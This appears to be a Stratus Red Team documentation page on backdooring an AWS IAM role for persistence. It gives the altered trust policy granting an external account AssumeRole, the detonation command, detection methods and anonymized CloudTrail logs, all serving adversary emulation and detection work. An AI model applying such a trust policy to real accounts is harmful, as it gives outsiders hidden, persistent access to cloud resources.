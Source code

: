 ```yaml
---
title: Backdoor an IAM Role
---
```


# Backdoor an IAM Role


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## Mappings

- MITRE ATT&CK
    - Persistence



## Description


Establishes persistence by backdooring an existing IAM role, allowing it to be assumed from an external AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an IAM role.

<span style="font-variant: small-caps;">Detonation</span>: 

- Update the assume role policy of the IAM role to backdoor it, making it accessible from an external, fictitious AWS account:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-backdoor-role
```
## Detection


- Using CloudTrail's <code>UpdateAssumeRolePolicy</code> event.

- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.



## Detonation logs <span class="smallcaps w3-badge w3-light-green w3-round w3-text-sand">new!</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:UpdateAssumeRolePolicy`


??? "View raw detonation logs"

    ```json hl_lines="6"

    [
	   {
	      "awsRegion": "ca-isob-northsouth-1r",
	      "eventCategory": "Management",
	      "eventID": "62e290e2-ee95-4a7c-a9f8-db4ef462b12d",
	      "eventName": "UpdateAssumeRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:29:57Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "751203476945",
	      "requestID": "295ee6e3-1da9-416f-885d-ad65d876ef82",
	      "requestParameters": {
	         "policyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "roleName": "stratus-red-team-backdoor-r-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "225.178.039.250",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_180e078f-4ad3-40c5-9ec3-efff37e17b25",
	      "userIdentity": {
	         "accessKeyId": "AKIAMUV7B57OZM0RV05D",
	         "accountId": "751203476945",
	         "arn": "arn:aws:iam::751203476945:user/christophe",
	         "principalId": "AIDA7SLGLLJ9LWK18E4Y",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).
